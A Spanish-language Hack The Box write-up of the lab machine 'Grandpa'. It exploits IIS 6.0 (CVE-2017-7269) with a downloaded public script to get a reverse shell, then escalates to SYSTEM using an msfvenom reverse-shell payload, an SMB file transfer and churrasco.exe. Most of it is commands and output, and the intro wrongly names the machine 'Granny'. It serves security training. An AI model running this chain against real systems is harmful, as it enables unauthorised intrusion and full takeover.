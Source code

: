 ```yaml
---
title: HackTheBox - Grandpa
categories: [Windows]
tags: [HackTheBox]
image: grandpa.png
img_path: /assets/HTB/Grandpa/
---
```


En este post voy a explicar como resolver la máquina Granny de [Hack The Box](https://app.hackthebox.com/machines/14), en la cual vamos a estar explotando una vulnerabilidad de un ```IIS 6.0``` y para la escalada vamos a hacer uso del exploit ```churrasco.exe```, si exactamene igual a la maquina [Granny](/posts/HackTheBox-Granny/)

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.10.14
Nmap scan report for 10.10.10.14
Host is up (0.23s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-webdav-scan:
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Date: Mon, 12 Dec 2022 15:00:58 GMT
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-title: Under Construction
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info:
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Como vemos, la página tiene el puertos 80 (HTTP) abierto.

# Enumeración
Al ingresar a la página, vemos esto.

<img src="grandpa-pagina.png">

Si usamos la herramienta whatweb para recopilar información del servidor web, vemos que se está utilizando ```Microsoft-IIS[6.0]```.

```
$ whatweb http://10.10.10.14/

HTTPServer[Microsoft-IIS/6.0], IP[10.10.10.14], Microsoft-IIS[6.0][Under Construction], MicrosoftOfficeWebServer[5.0_Pub], UncommonHeaders[microsoftofficewebserver], X-Powered-By[ASP.NET]
```

Esta versión del ```IIS``` es vulnerable a ```ejecución de código arbitrario```, para explotarlo vamos a hacer uso de este [exploit](https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell) creado por ```g0rx```, el cual nos mandara directamente una ```reverse shell```.

# Reverse Shell

```
$ curl -s  https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -o IIS-exploit.py

$ python2 IIS-exploit.py 10.10.10.14 80 [Reverse IP] [Reverse Port]

```
```
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.14] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
nt authority\network service
```

# Enumeración del sistema
Al hacer un ```whoami /priv```, veremos que tenemos el privilegio ```SeImpersonatePrivilege```, el cual podemos abusar haciendo uso del exploit ```churrasco.exe```, una alternativa al ```JuicyPotato.exe```, usaremos esa alternativa, ya que en algunos escenarios, el exploit JuicyPotato no es compatible con los sistemas más antiguos.

Lo primero que vamos a hacer es descargarnos el exploit ```churrasco.exe``` y crearnos un archivo malicioso haciendo uso de msfvenom el cual se encargue de mandarnos una reverse shell.

```
$ wget https://github.com/Re4son/Churrasco/raw/master/churrasco.exe
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o shell.exe

No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

Una vez creados, los transferiremos a la máquina víctima, haciendo uso de la herramienta ```impacket-smbserver```.

```
$ sudo impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Una vez este inicializado el servidor SMB en la máquina local, descargaremos los archivo de la siguiente forma.

```
c:\windows\system32\inetsrv>cd C:\Windows\Temp

C:\WINDOWS\Temp>copy \\10.10.14.3\smbFolder\churrasco.exe churrasco.exe
        1 file(s) copied.

C:\WINDOWS\Temp>copy \\10.10.14.3\smbFolder\shell.exe shell.exe
        1 file(s) copied.

C:\WINDOWS\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is FDCB-B9EF

 Directory of C:\WINDOWS\Temp

12/12/2022  05:09 PM    <DIR>          .
12/12/2022  05:09 PM    <DIR>          ..
12/12/2022  05:06 PM            31,232 churrasco.exe
12/12/2022  05:06 PM            73,802 shell.exe
02/18/2007  02:00 PM            22,752 UPD55.tmp
12/24/2017  07:19 PM    <DIR>          vmware-SYSTEM
12/12/2022  04:14 AM            22,554 vmware-vmsvc.log
09/16/2021  12:15 PM             5,826 vmware-vmusr.log
12/12/2022  04:17 AM               637 vmware-vmvss.log
               6 File(s)        156,803 bytes
               3 Dir(s)   1,316,003,840 bytes free

C:\WINDOWS\Temp>
```

# Escalada de privilegios

Ahora nos pondremos en escucha por el puerto que le especificamos en el archivo malicioso, y lo ejecutaremos haciendo uso del exploit ```churrasco.exe``` para que nos llegue una reverse shell como ```nt authority\system```.

```
C:\WINDOWS\Temp>churrasco.exe
/churrasco/-->Usage: Churrasco.exe [-d] "command to run"
C:\WINDOWS\Temp>churrasco.exe -d ".\shell.exe"

/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 672
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 680
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 688
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

```
$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.14] 1035
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
nt authority\system
```
